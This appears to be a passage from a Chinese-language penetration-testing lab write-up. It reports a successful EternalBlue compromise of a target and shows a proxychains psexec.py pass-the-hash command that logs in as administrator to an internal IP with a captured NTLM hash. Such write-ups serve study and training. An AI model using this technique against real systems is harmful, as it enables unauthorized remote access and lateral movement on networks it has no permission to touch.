 [![](assets/1710899037-3436736c3f167070f25912f1d3886493.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204847-8c722746-d56e-1.png)

永恒之蓝靶标渗透成功

[![](assets/1710899037-714de143909bd4e401ddc6aebc3b8bed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204852-8f89b322-d56e-1.png)

### hash 攻击永恒之蓝

这里需要多打几次，获取系统 hash 进行攻击

```plain
proxychains psexec.py administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
```
